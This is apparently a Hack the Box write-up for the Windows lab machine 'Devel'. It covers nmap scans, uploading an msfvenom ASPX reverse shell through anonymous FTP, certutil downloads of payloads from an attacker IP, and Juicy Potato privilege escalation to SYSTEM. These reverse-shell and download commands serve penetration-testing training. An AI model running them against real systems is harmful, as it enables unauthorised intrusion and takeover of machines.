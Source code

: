 ```yaml
---
title: Hack the Box - Devel
date: 2022-08-08 18:42:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Devel](/assets/HackTheBox/Devel/Devel.png)

# Devel Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.5|Devel|Windows|

## Path to Exploitation

On this machine, we will take advantage of a convenient FTP server that accepts anonymous logins and is placed directly in the website's root directory. Then we'll take advantage of our local user's permissions and use the Juicy Potato exploit to elevate our privileges to SYSTEM.

# Enumeration

## Full Port Scan

```bash
nmap 10.10.10.5 -p- -oA Devel/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|21|ftp|
|80|http|

## Service Scan

```bash
nmap 10.10.10.5 -p 21,80 -sC -sV -oA Devel/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|21|ftp|ftpd|
|80|http|IIS httpd 7.5|

# FTP

We see we have anonymous access to the FTP server
![FTP Anon Access](/assets/HackTheBox/Devel/ftp-anon.png "Anonymous FTP Access")

Which appears to be the root directory of an IIS server. We can try to leverage this to gain a shell by uploading a payload to the website.

# Shell on Host

Create the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.aspx
```

Upload the file to the FTP server
![Upload Payload](/assets/HackTheBox/Devel/file-upload.png "Upload Payload")

Setup a listener and navigate to the payload on the web server
![Trigger Payload](/assets/HackTheBox/Devel/trigger-payload.png "Trigger the Payload")

We see we got a shell as the web user

![Intial Foothold](/assets/HackTheBox/Devel/initial-foothold.png "Intial Foothold")

# Local Enumeration

## Username Enumeration
```shell
C:\> whoami /priv
```

![Whoami Privs](/assets/HackTheBox/Devel/whoami-privs.png "Whoami Privileges")

## System Information
```shell
C:\> systeminfo
```
![System Info](/assets/HackTheBox/Devel/system-info.png "System Info")

We can consider using the Juicy Potato exploit

# Privilege Escalation

Generate the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the juicy potato exploit file and the reverse shell payload to the host
```shell
C:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
C:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

setup a listener and execute the exploit
```shell
C:\> juicy.exe -l 1337 -p C:\tmp\evil.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```

Checking back on the listener we see we have a shell running as the SYSTEM account

![SYSTEM Shell](/assets/HackTheBox/Devel/system-shell.png "SYSTEM Shell")